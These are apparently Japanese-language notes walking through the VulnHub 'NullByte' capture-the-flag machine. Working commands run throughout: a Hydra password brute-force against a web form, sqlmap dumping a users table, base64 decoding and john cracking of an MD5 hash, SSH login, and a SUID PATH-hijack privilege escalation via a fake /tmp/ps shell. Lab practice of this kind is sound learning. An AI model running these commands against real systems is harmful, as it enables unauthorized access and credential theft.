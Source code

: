 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- functionKeyの12を押すとソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirbで使うコンテンツ辞書を見てみる
- `wc /usr/share/dirb/wordlists/*.txt`
- ひとつ具体的に見てみる
- `head /usr/share/dirb/wordlists/small.txt`
```
0
00
```
- これは`http://192.168.56.108/0`,`http://192.168.56.108/00`のように順に入っていく
### dirb
- gobusterみたいに隠しサイトを見つけてくるもの
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う
### 怪しい画像ファイルを調査する
- `wget http://$IP:80/main.gif`
- ファイルを調べる
  - `strings main.gif` または `exiftool main.gif`の両方あるが、後者の方が有能。exiftoolコマンドは画像などのメタデータを調べるコマンド
  - 謎のコメントが得られる`kzMb5nVYJw`

### Webサイト 
- さっきのを最後につけてサイトを見る

### SecListをダウンロードする
- パスワードの辞書
- `cd ~/vulnhub`
- `wget https://github.com/danielmiessler/SecLists/archive/refs/heads/master.zip`
- `unzip master.zip`

### Hydraで攻略
- HTMLソースのコメントに使うツールのヒントが書かれている
- WebサイトのHTMLソースからindex.phpのkeyにパスワードが送信されていることがわかる
- `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```
- getメソッドを使っているのでhydraは使わないのがわかる
- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
 
### 認証を突破する(SQLMap)
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`
- いろいろ聞かれるが、全部`y`を入力して押す
- ramsesのpassをコピーする

### Base64でデコードする
- 上でコピーしたのがなぜBase64を使うのはよくわからん。多分どこかに書いてあるのだと思うが、、
- `echo -n "ペースト=" | base64 -d`
  - ペーストした最後に`=`イコールをつける、理由は6の座学にあり
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号に注意

### システム内を探索する
- フォルダを探索する
- `sudo -l`
  - パスワードがわからない 
- SUIDを探す
  - 怪しいコマンドがある 
- `cat .bash_hitory`
  - 謎のコマンドを実行していることがあるので、大きなヒントになる 

### 怪しいプログラムを調べる
- `cd /var/www/backup`
- 謎のコマンドが実行されている `./procwatch`
- これはどこかで見たことのあるコマンド?これは完全にバグで、これを利用する
- `ls -al` SUIDファイルであることがわかる
- `echo $PATH`
  - PATHは左から順に読み込まれるので、/tmpディレクトリをはじめに置いて、そこに偽のpsコマンド(ファイル)をおく 
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- pcコマンドのファイルにシェル(sh)を実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

